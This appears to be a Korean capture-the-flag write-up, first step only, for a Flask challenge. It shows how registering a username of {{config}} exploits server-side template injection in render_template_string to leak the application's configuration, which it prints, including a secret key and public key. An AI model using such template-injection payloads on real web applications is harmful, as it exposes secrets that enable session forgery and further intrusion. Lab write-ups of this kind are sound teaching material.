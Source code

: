 ## 코드

너무 많아서 생략

## 풀이

### Step 1 : SSTI 취약점 활용 정보 leak

semgrep 을 통해 ssti 취약점 있는 것 확인(그냥 render_template_string 검색해도 될듯)

ssti 취약점(render_template_string)을 활용해서 {{config}}를 leak
회원가입을 {{config}}로 하고 `해당 페이지는 존재하지 않습니다.` 를 유도하면 leak 할 수 있음

```json
{
   "ENV":"production",
   "DEBUG":false,
   "TESTING":false,
   "PROPAGATE_EXCEPTIONS":"None",
   "PRESERVE_CONTEXT_ON_EXCEPTION":"None",
   "SECRET_KEY":"b""\\xb1v\\xd7\\xa9\\xfb94\\x16\\x82TS\\xc9mgx\\xbeP\\xe9&quot;\\x8c\\x1d\\xf2\\xea\\xec]y\\x99\\x89\\x85\n\\xa5V",
   "PERMANENT_SESSION_LIFETIME":datetime.timedelta(days=31),
   "USE_X_SENDFILE":false,
   "SERVER_NAME":"None",
   "APPLICATION_ROOT":"/",
   "SESSION_COOKIE_NAME":"session",
   "SESSION_COOKIE_DOMAIN":false,
   "SESSION_COOKIE_PATH":"None",
   "SESSION_COOKIE_HTTPONLY":true,
   "SESSION_COOKIE_SECURE":false,
   "SESSION_COOKIE_SAMESITE":"None",
   "SESSION_REFRESH_EACH_REQUEST":true,
   "MAX_CONTENT_LENGTH":"None",
   "SEND_FILE_MAX_AGE_DEFAULT":"None",
   "TRAP_BAD_REQUEST_ERRORS":"None",
   "TRAP_HTTP_EXCEPTIONS":false,
   "EXPLAIN_TEMPLATE_LOADING":false,
   "PREFERRED_URL_SCHEME":"http",
   "JSON_AS_ASCII":true,
   "JSON_SORT_KEYS":true,
   "JSONIFY_PRETTYPRINT_REGULAR":false,
   "JSONIFY_MIMETYPE":"application/json",
   "TEMPLATES_AUTO_RELOAD":"None",
   "MAX_COOKIE_SIZE":4093,
   "AUTH_PUBLIC_KEY":"b""-----BEGIN PUBLIC KEY-----\nMIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCHe8vs2e8yiY+maoGd7IxtsCUP\nQkAGJgYqAYllxeCXtrv1ZyXaG1ttsfTyWnk9cJ8NFbk9ahMvdGopnoiN6mCvquhy\nBAUdpBc5xVEOATh0Srb96btxJkBilTw9c0feV5D6I83382YrYglZAnKTsS6/L4+Q\ndikLqztu2il+PRQHOQIDAQAB\n-----END PUBLIC KEY-----",
   "FLAG_SCHOOL":"드림대학교",
   "SQLALCHEMY_DATABASE_URI":"sqlite:////app/database.db",
   "TIMEZONE":"Asia/Seoul"
}
```
